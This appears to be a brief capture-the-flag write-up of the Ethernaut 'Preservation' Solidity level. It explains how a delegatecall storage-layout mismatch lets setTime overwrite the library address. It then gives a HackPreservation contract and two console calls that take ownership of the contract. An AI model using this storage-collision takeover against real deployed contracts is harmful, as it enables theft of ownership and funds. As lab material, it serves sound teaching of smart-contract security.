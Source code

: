 the memory layout of the `LibraryContract` is incompatible with the contract `Preservation`, `setTime` will write to the first memory slot, thus overwriting `timeZone1Library` address. So, first deploy a contract that will change the owner, then call `setFirstTime` to override the `timeZone1Library` with our contract address, lastly `setFirstTime` with our address.

```
contract HackPreservation {
  address public timeZone1Library;
  address public timeZone2Library;
  address public owner;

  function setTime(uint _time) public {
    owner = address(_time);
  }
}
```

```
await contract.setFirstTime('<contract address>')
await contract.setFirstTime(player)
```
